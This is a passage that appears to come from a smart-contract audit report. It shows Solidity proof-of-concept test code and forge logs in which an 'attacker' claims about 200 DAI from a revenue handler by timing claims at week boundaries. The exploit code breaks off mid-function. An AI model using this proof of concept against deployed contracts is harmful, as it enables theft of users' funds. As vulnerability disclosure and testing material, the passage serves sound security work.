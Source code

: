 ```solidity
        console2.log("claimable: %s", claimable);        
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
        console2.log("Current block.timestamp: %s", block.timestamp);
        revenueHandler.claim(tokenId1, dai, address(0x00), claimable, address(this));        
        console2.log("Balance of the attacker: %s",IERC20(dai).balanceOf(attacker));
    }

```

The log shows: 

```solidity
[PASS] testClaimRevenueMerge_Normal() (gas: 2256883)
Logs:
  Balance of the revenueHandler: 1000000000000000000000
  Choose the block.timestamp to be exact time that have modulo WEEK equal to 0
  Current block.timestamp: 1716422400
  claimable: 199999999999936927998
  Balance of the attacker: 0
  Current block.timestamp: 1716422400
  Balance of the attacker: 199999999999936927998
```

So the Full POC code: 

```
    function _accrueRevenueAndJump1Epoch(uint256 revAmt) internal {
        revenueHandler.checkpoint();
        _jumpOneEpoch();
        _accrueRevenue(dai, revAmt);
        revenueHandler.checkpoint();
        
    }
    function testClaimRevenueMerge_Hacked() external {
        address owner = revenueHandler.owner();
        // Setup the scenario when PoolAdapter is zero 
        hevm.prank(owner);
        revenueHandler.setPoolAdapter(dai, address(0x00));
        hevm.stopPrank();
        // Start of the test case
        uint256 revAmt = 1000e18; // Revenue is 1000 DAI 
        address attacker = address(this);
        address Alice = address(0x11223344); 
        address Bob = address(0x55667788);
        uint256 count = 10; 
        uint256[] memory tokenIds = new uint256[](count); 
        uint256 tokenId1; 
        uint256 tokenId2; 
        uint256 claimable; 

        for (uint256 i = 0; i < count; i++) {
           tokenIds[i] =  createVeAlcx(attacker, TOKEN_1, 4 weeks, false);
        }
               
        uint256 tokenId7 = createVeAlcx(Alice, 90*TOKEN_1, 4 weeks, false);        

        _accrueRevenueAndJump1Epoch(revAmt);       

        console2.log("Choose the block.timestamp to be exact time that have modulo WEEK equal to 0"); 
        hevm.warp((block.timestamp / WEEK) * WEEK + WEEK );
        console2.log("Current block.timestamp: %s", block.timestamp);
        console2.log("Balance of the revenueHandler: %s",IERC20(dai).balanceOf(address(revenueHandler)));
        
```